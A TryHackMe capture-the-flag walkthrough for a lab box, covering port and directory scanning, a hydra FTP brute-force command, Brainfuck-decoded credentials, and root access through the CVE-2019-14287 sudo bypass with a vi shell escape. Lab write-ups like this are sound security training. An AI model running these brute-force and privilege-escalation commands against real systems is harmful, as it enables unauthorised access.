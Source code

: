 # TryHackMe: RabbitCTF Walkthrough

## Overview

This CTF involves web enumeration, traffic interception, FTP login brute-forcing, Brainfuck decryption, and privilege escalation via a known CVE exploit.

---

## Recon

### Ports Discovered (via rustscan):
- **21** – FTP  
- **22** – SSH  
- **80** – HTTP  

### Web Enumeration with Feroxbuster:

feroxbuster -u http://rabbit.thm

Interesting Endpoints:

    /assets/style.css

    /icons/openlogo-75.png

    /index.html

    /assets/RickRolled.mp4 (very large file)

Web Exploitation

    Found a secret directory in the source code.

    Used Caido to intercept traffic and uncovered a hidden .png file.

    This image contained FTP credentials hidden in metadata or EXIF.

FTP Credentials Discovered:

    User: ftpuser

    Brute-forced password (using hydra): 5iez1wGXKfPKQ

Hydra Command Used:

hydra -l ftpuser -P password.txt ftp://rabbit.thm -t 4

FTP Loot

    Downloaded a file with Brainfuck encryption.

    Decoded using dcode.fr Brainfuck Decoder

Resulting Credentials:

    User: eli

    Password: DSpDiM1wAEwid

Privilege Escalation
Enumeration with linpeas revealed:

/home/gwendoline/user.txt
/home/gwendoline/.bash_history
/var/www/html/sup3r_s3cret_fl4g/index.html

Found message from root to user gwendoline, suggesting password weakness.
CVE Exploitation
CVE-2019-14287 – Sudo Bypass via UID -1
Sudo Permissions:

sudo -l

Output showed:

(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

This allowed executing vi as root, bypassing restriction:
Exploit Steps:

sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

Inside vi, escaped to shell:

:!/bin/sh

✅ Gained root access!
Summary
Step	Tool / Method	Result
Port Scanning	rustscan	Found open FTP, SSH, HTTP
Web Enum	feroxbuster, Caido	Discovered hidden .png file
FTP Brute Force	hydra	Cracked FTP password
Decryption	dcode.fr (Brainfuck)	Recovered credentials
Priv Esc	CVE-2019-14287 via sudo	Root shell
Flags Captured

    user.txt: ✅

    root.txt: ✅
